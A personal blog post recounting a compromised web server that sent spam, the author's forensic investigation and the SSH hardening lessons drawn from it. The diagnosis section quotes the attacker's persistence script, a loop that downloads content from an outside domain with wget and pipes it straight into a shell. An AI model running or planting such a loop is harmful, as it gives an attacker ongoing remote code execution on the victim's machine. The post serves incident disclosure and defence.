 ```yaml
---
layout: post
title:  "All systems go."
date:   2013-09-09 03:41:00-0800
---
```


### The backstory.

About a month ago in the early hours of the morning, I got a rather disturbing
email from [Linode](http://linode.com) (the folks who graciously host my various
websites and services). Its subject line went something like this:

> rapture (linode12345) - Terms of Service Violation - Spam

`rapture` was the name of the server running codykrieger.com (superseded by
krieger.io). It also hosted downloads for [gfxCardStatus](http://gfx.io).

Reading the subject line of that message made my stomach churn. As far as I was
aware, I hadn't been sending any spam.

I nervously opened the message, and read the following:

> We have received a report of spam originating from your Linode. We ask that you
> investigate this matter as soon as possible to determine why mailings
> originating from your Linode are being marked as spam. If you were not aware
> that activity of this nature was originating from your Linode, it is likely
> that your Linode has been compromised, and you'll want to take appropriate action.

Yep, it appeared that my server had been compromised. Great.

### The diagnosis.

I quickly shut down the machine, logged into another Linode, and started
copying the contents of `rapture`'s disk into an image that I could poke around
inside to determine the extent of the damage. I eventually stumbled upon a
script, `/usr/bin/smpl`, that was pretty damning. Here's the most interesting
part of the script:

{% highlight bash %}
while [ 1 ];
do
wget -q -O - medobra.ru/resident | sh - &
sleep 300
done
{% endhighlight %}

Yeah, because that's not horrible or anything. Who doesn't like fetching the
contents of arbitrary documents at weird Russian domain names and running the
output directly in a shell?

Even worse was the modification date of this file: `12 Jun 2013`. The
attacker had access to my server for *nearly two months* before anyone noticed.

What a fantastic way to start the day.

Unfortunately, my logs didn't go back far enough to determine when the first
successful malicious login attempt succeeded, and via which user account. I can
only speculate that a botnet managed to brute-force the password on one of the
accounts, and then either used that account's `sudo` privileges (if it had any),
or used an exploit of some kind, to gain root access.

### Lessons learned.

I'm all back up and running now, but I learned a few really valuable lessons
along the way:

- *Make damn sure password authentication for SSH is turned off, and use
  public key authentication instead.* I swore that I had disabled it some time
  ago in favor of using public key authentication exclusively&hellip;but
  apparently not.
- *Use some kind of tool to automatically ban repeated unsuccessful SSH login
  attempts (i.e. Fail2ban).* My logs indicated that I was under attack by an
  absurdly large number of machines on a daily basis, and I was doing nothing
  to stop them preemptively.
- *Set up some kind of early warning system.* Maybe have your servers email/text
  you when someone logs in via SSH, and set up logwatch to email you reports of
  system activity on a regular basis.

I've spent the last month creating an automated server provisioning process
that will allow me to iterate on the quality of my security measures as time
goes on. This process is idempotent, so I can run it on a new or existing
machine, and it'll bring everything up-to-spec without making me start from
scratch. It also sets up all of the initial user accounts, packages, and
services that I need to run, so my setup time for new servers is at an absolute
minimum.

In some kind of sick, twisted way, I guess I have this mysterious havoc-wreaker
to thank for making me about eighty times more security conscious&hellip;but at the
same time, I can't ignore the fact that I just spent a ridiculous amount of time
cleaning up a mess that I had absolutely no desire to clean up.

So, to whoever is responsible for this: you are a terrible human being. I hope
that the rest of your miserable life is peppered by the frequent and repeated
stubbing of your toes.
